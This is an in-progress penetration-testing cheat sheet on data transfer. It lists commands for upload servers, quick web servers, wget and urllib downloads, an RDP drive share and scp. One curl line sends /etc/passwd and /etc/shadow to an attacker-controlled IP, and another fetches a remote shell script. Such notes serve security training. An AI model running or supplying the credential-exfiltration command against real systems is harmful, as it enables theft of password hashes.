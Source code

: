 # Data Transfer

<mark style="background-color:red;">This chapter is in-progress.</mark>

<mark style="color:blue;">Check the index on the right to navigate this page more easily.</mark>

## Program Upload

#### Uploadserver

<pre><code><strong># Download Uploadserver
</strong><strong>sudo python3 -m pip install --user uploadserver
</strong><strong># Create a self-signed certificate
</strong>openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# Make webroot
mkdir https &#x26;&#x26; cd https
# Start web service
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
# Uploading multiple files via curl
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
</code></pre>

**Creating a Web Server with Python3**

```
python3 -m http.server (default port 80 change port with -p)
```

**Creating a Web Server with Python2.7**

```
python2.7 -m SimpleHTTPServer
```

**Creating a Web Server with PHP**

```
php -S 0.0.0.0:8000
```

**Creating a Web Server with Ruby**

```
ruby -run -ehttpd . -p8000
```

**Using Python3**

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://acuity.io/repository/getsmart.sh", "getsmart.sh")'
```

**Using wget**

```
wget 192.168.49.128:8000/filetotransfer.txt
```

```
xfreerdp /v:1.2.3.4 /u:acuity /p:"SuperStr00ng!" /drive:linux,/home/acuity/share
```

### SCP File Operations

#### Uploading Files

```
scp /home/acuity/file.txt acuity@$IP:/home/hacked/file.txt
```
